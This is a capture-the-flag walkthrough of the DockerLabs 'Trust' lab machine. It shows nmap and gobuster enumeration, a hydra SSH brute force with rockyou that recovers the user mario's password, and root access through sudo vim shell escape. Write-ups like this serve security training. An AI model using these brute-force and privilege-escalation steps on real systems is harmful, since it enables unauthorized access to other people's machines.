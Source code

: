 #Trust DockerLabs - 13/05/2024

#web - https://dockerlabs.es/#/

We start by performing a basic scan with nmap.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2                                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 22:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds

```

Here we find a port 22 and a port 80, I enter the web address ‘http://172.17.0.2/’ and I can see that it is an apache page:

![Captura de pantalla 2024-05-13 224854](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/44dee495-8746-4af4-94f8-e41c76ea6cf1)

We search for subdomains with gobuster: 

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              bak,php.bak,php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 813927 / 1323366 (61.50%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 818325 / 1323366 (61.84%)
===============================================================
Finished
===============================================================
                                                                 
```

We found a .php file called ‘secret.php’. I access this file and I see a page where it talks about a user ‘mario’:

![Captura de pantalla 2024-05-13 225146](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5b429c97-e09e-4c60-b278-b66b21533728)

We do a brute force attack with hydra on the ssh server with the user mario:

```shell
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 22:36:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-13 22:36:26           
```

It finds us a password for the user mario, we try it and we see that it lets us in:

```shell
└─$ ssh mario@172.17.0.2               
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux eb21e3cbaf4b 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21

```

```shell
mario@eb21e3cbaf4b:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on eb21e3cbaf4b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on eb21e3cbaf4b:
    (ALL) /usr/bin/vim

```

We see that we can escalate privileges through the /usr/bin/vim binary.
We go to ‘https://gtfobins.github.io/#’ a website dedicated to exploiting these bins among other things.
Search for ‘vim’ and enter ‘sudo’.
Proceed with the privilege escalation:

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

We execute the command and we see that we are now root:

```shell
mario@eb21e3cbaf4b:~$ sudo vim -c ':!/bin/sh'

```

```shell
# whoami
root

```
